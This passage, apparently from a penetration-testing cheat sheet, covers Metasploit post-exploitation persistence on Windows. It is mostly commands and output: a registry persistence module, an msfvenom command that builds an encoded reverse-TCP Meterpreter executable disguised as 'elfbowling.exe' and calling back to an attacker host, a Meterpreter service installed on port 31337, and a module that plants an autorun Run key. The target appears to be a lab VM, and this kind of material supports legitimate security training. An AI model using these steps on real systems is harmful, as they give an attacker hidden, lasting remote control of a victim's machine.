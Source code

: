 `ipconfig` - Get IP Configuration

`autoroute` - Module used for adding route's to a network by way of the session we have open. 

## Persistence
**Registry Persistence from Metasploit**  
  

```bash
meterpreter> getuid  
Server username: NT AUTHORITY\LOCAL SERVICE  
meterpreter> background  
[*] Backgrounding session 1…  
msf exploit(windows/http/manageengine_connectionid_write)> use exploit/windows/local/registry_persistence  
msf exploit(windows/local/registry_persistence)> set SESSION 1  
SESSION => 1  
msf exploit(windows/local/registry_persistence)> exploit  
  
[*] Generating payload blob..  
[+] Generated payload, 5968 bytes  
[*] Root path is HKCU  
[*] Installing payload blob..  
[+] Created registry key HKCU\Software\hO2pqzTh  
[+] Installed payload blob to HKCU\Software\hO2pqzTh\kASCvdW3  
[*] Installing run key
```

**Using `msfvenom` to Create Stand‐Alone Payload**  
  
```bash
root@quiche:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.57 LPORT=3445 -f exe -e x86/shikata_ga_nai -a x86 -i 3 -o elfbowling.exe
```

**Creating the Meterpreter Service on Target**  
  

```powershell
meterpreter> run metsvc  
  
[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence:exe.  
[!] Example: run post/windows/manage/persistence:exe OPTION=value […]  
[*] Creating a meterpreter service on port 31337  
[*] Creating a temporary installation directory C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\KrUjwJQb…  
[*]>> Uploading metsrv.x86.dll…  
[*]>> Uploading metsvc-server.exe…  
[*]>> Uploading metsvc.exe…  
[*] Starting the service…
```


**Using the Metasploit Module for Persistence**  
  

```powershell
meterpreter> run post/windows/manage/persistence:exe REXEPATH=/root/elfbowling.exe  
  
[*] Running module against VAGRANT-2008R2  
[*] Reading Payload from file /root/elfbowling.exe  
[+] Persistent Script written to C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\default.exe  
[*] Executing script C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\default.exe  
[+] Agent executed with PID 5672  
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw  
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw  
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/VAGRANT-2008R2_22230112.4749/VAGRANT-2008R2_2230112.4749.rc
```
